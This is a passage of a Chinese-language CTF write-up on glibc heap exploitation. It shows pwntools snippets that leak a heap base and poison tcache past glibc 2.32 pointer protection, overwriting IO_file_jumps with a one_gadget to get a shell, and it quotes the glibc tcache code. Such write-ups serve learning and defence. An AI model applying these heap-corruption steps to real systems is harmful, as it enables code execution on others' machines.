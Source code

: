    ```python
   heap_base_addr = u64(io.recv(5).ljust(8,b'\x00'))
   success(f'heap_base_addr=>{hex(heap_base_addr)}')
   ```

   > 获得了libc,heap_base,one_gadget

2. 利用`tcache_bin`伪造`fake_chunk`获得`shell`

   ```python
   for i in range(5):
       add()           #8-13
   edit(1,p64(heap_base_addr^IO_file_jumps))       #对chunk0修改	`指针加密`
   add()               #14
   add()               #15
   edit(15,p64(0)*3+p64(one_addr))
   ```

   ![image-20240502224722784](./../../AppData/Roaming/Typora/typora-user-images/image-20240502224722784.png)

   先控制`tcache_bin`中剩余两个节点,方便我们操作

   ![image-20240502224849916](./../../AppData/Roaming/Typora/typora-user-images/image-20240502224849916.png)

   成功修改为`IO_file_jumps`地址,这里因为**指针加密**机制的存在,所以`p64(heap_base_addr^IO_file_jumps)`

关于**指针加密**:

在`glibc2.32`之后引入了一个新的指针机制:

```c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = NULL;
  return (void *) e;
}
```
